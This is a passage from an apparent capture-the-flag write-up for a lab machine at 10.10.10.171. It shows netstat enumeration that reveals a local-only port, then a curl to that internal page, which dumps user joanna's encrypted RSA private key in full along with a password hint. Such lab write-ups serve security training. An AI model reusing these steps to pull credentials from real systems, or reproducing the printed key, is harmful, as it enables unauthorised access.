 This file is trying to output joanna's ssh key, which we would obviously be interested in.
running it with a simple "php main.php" we just get a permission denied tho.
I then tried to access these files via the browser but could not find them on 10.10.10.171/main.php
neither 10.10.10.171/internal/main.php, which after a while got me thinking that they might be runnig on a different port

```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

Which turned out to be correct, the /internal pages are running on port 52846 and a simple curl gave us the ssh key

```html
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
